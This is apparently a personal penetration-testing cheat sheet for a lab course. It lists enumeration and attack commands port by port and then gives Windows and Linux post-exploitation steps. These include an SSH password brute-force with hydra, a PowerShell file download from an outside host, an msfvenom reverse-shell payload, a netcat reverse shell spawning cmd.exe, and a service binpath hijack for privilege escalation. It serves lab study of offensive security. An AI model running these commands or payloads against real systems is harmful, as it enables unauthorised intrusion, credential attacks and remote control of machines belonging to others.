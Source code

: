 # Initial Reconnaissance:
Main Nmap Scan: nmap -v -A -sS 10.11.1.X

Alternate Connect Scan: nmap -v -sT -p 0-10000 10.11.1.X

# Ports and Services:
## 21: FTP
		
Methods and Tools:
Notes:
Service version research
Google / ExploitDB from nmap scan
netcat/telnet interaction
nc 10.11.1.X 21  Commands: https://www.serv-u.com/features/file-transfer-protocol-server-linux/commands 
Nmap NSE FTP scripts
nmap -v 10.11.1.X --script “ftp*”
dotdotpwn
dotdotpwn -h 10.11.1.X -m ftp

## 22: SSH

Methods and Tools:
Notes:
Service version research
It’s almost never ssh, ExploitDB/Google 
hydra
Hydra -l user -P /usr/share/wordlists/rockyou.gz 10.11.1.X SSH


## 25: SMTP

Methods and Tools:
Notes: 
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “smtp*”
smtp-user-enum
smtp-user-enum -u username -U usernamelist.txt -t 10.11.1.X


## 53: DNS
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “dns*”
DNSenum
dnsenum URL.com


## 80/443/8080: HTTP/HTTPS

Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “http*”
Dirbuster
GUI, /usr/share/wordlists/dirbuster
nikto
Nikto -h 10.11.1.X
Burpsuite
Webproxy, set up for Iceweasel
Curl
Data transfer, not as useful
Cadaver/davtest
Useful for webDAV stuff, more specific
Wpscan
Only for wordpress


## 110: POP3
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “pop*”
Netcat/telnet interaction
nc 10.11.1.X 110


## 135: RPC
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “rpc*”
enum4linux
enum4linux 10.11.1.X
rpcclient
rpcclient -U “” 10.11.1.X for null session

	
## 139: NETBIOS
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
nbtscan
nbtscan -v 10.11.1.X
enum4linux
enum4linux 10.11.1.X


## 445: SMB
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “smb*”
enum4linux
enum4linux 10.11.1.X
smbclient
smbclient "//10.11.1.128/wwwroot" - Connects to smb shares mapped with enum4linux
smbmap
smbmap -u jsmith -p password1 -d workgroup -H 192.168.0.1
nbtscan
nbtscan -v 10.11.1.X




# Windows Post-Exploitation
	
General Toolkit
Method and Tools:
Notes and Links: 
Powershell File Download
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.243/test.txt','C:\test.txt)”
General File Transfer
https://blog.ropnop.com/transferring-files-from-kali-to-windows/ 
Mingw Compiling for Windows
i686-w64-mingw32-g++ -o evil.exe 37098.txt -lws2_32
Dos2unix (Gets rid of /bin/sh^5 error)
dos2unix <filename> 
Payload Encoding (On Kali) 
msfvenom -p windows/shell/reverse_tcp LHOST=10.11.0.243 LPORT=1777 -f exe -o rever.exe -e x86/shikata_ga_nai -k
Windows netcat reverse shell
nc.exe 192.168.100.113 4444 –e cmd.exe


## Privilege Escalation
	
Method and Tools:
Notes and Links:
General Guide
http://www.fuzzysecurity.com/tutorials/16.html 
Accesschk.exe
https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk 
Windows Enum
https://github.com/azmatt/windowsEnum 
WinExpSugg
https://github.com/GDSSecurity/Windows-Exploit-Suggester 
WinPrivChk
https://github.com/pentestmonkey/windows-privesc-check 
Service Privesc
sc config SSDPSRV start= “auto”
net start SSDPSRV
net start UPNPHOST
sc config upnphost binpath= “C:\shell.exe”
sc config upnphost obj= “.\LocalSystem” password= “”
net start upnphost




# Linux Post-Exploitation

General Toolkit:
Method and Tools:
Notes and Links:
Shell Cheatsheet
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet 
Shell Escape
python -c 'import pty; pty.spawn("/bin/sh")'  
File Transfer
https://www.pks.mpg.de/~mueller/docs/suse10.2/html/opensuse-manual_en/manual/sec.filetrans.copy.html 
Exploit/multi/handler
Set payload
Set LPORT
Set LHOST
Set EXITFUNC


## Privilege Escalation:

Method and Tools:
Notes and Links:
General Guide
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ 
Exploit Suggester
https://github.com/mzet-/linux-exploit-suggester 
LinEnum*
https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh 
Unix Privesc Check
https://raw.githubusercontent.com/pentestmonkey/unix-privesc-check/master/upc.sh 
LinPrivChecker
https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py

	
	
	

